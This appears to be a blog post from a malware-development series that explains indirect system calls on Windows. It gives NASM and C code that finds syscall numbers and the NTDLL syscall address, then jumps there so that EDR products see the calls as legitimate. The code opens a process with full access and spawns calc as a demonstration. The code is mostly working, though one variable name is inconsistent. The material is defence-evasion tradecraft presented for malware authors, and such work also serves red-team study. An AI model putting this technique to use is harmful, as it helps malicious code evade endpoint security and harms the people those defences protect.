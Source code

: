 # Indirect System Call

## Theory

There isn't much difference between a direct system call & indirect system call. As you might have seen , the implementation for direct system call was to invoke a `syscall` instruction inside the assembly. The problem with this method is that it can easily be sensed by EDR's because it is weird for a syscall to be invoked from anywhere outside of the NTDLL. So the _gato_ had to now think of a workaround.

<figure><img src="../../.gitbook/assets/image (100).png" alt="" width="188"><figcaption><p><em>HMM I can snek behind EDR</em></p></figcaption></figure>

So it finally had a better thought, which was to instead have a `jmp` instruction to where the syscall is. This saves us from calling the syscall directly + since we jmp to a memory inside NTDLL , the syscall seems to be coming from a legit source. A nice idea indeed. Putting his thought to an assembly, _кошка_ finally finishes it's new work.

## Indirect System Call

{% code title="indirect_sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN sysAddr:QWORD;

.code
iNtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                jmp qword ptr sysAddr
                ret
iNtOpenProcess ENDP
....
END
```
{% endcode %}

Now that we have updated our assembly, we also have to tweak our C code. Firstly, we need to get the address to the memory where the syscall occurs. Again we can do it by simply parsing any function until we reach the bytes `0x0F 0x05` which is the [OPCode](https://en.wikipedia.org/wiki/Opcode) for a system call, then we can just jmp to this address later. Also since we are jumping to a `syscall` we don't need to keep looking for different syscalls for different functions, any syscall can be used to do the job. So for `NtOpenProcess`, we can also use syscall within the `NtClose` function. Although, we still would have to get the **SSN** of each function. Here's a simple C code to do that

```c
VOID get_ssn_sign(HMODULE ntHandle, CONST LPCSTR fnName, PDWORD fnSSN, PUINT_PTR sysAddr) {

    UCHAR       sysSignature[2] = { 0x0F, 0x05 };
    DWORD               SussyNum = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = (UINT_PTR)GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("GetProcAddress Failed  @-->0x%d || NtfnAddress @--0x%x", GetLastError(), NtfnAddress);
        return;
    }
    *fnSSN = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    *sysAddr= NtfnAddress + 0x12;
    // Again the 0F 05 should be at offset of 0x12
    
    if (memcmp(sysSignature, *sysAddress, sizeof(sysSignature)) == 0) {
        info("Found @---0x%p", *sysAddress);
    }
    else {
        warn("weird function, no sig found");
        return;
    }
}
```

After getting the SSN for every function, we will get the address for the syscall instruction and then it's just the same as it was for direct system call. Here's a snippet , and once again you can find the full code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c).

```c
QWORD sysAddr;

get_ssn_sign(ntdllModule, "NtOpenProcess", &dwNtOpenProcess, &sysAddr);

STATUS = iNtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d", GetLastError());
    goto deadend;
}
....
```

Also dont' forget to setup the asm file just in the same way as described in the previous post. With that, we come to an end. This was a short one since it required just a slight tweaking in the system call implementation. We can run this and see the calc spawning.

<figure><img src="../../.gitbook/assets/indirect_syscall.gif" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption><p> <em>Indrect Syscalls are Cat-astrophic !</em></p></figcaption></figure>

I hope you guys did understand what I tried explaining. You can dm me on [twitter ](https://x.com/ZzN1NJ4)anytime for any queries. There's a lot to talk about, I hope I am able to squeeze some more time for this. Thanks for reading :)

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

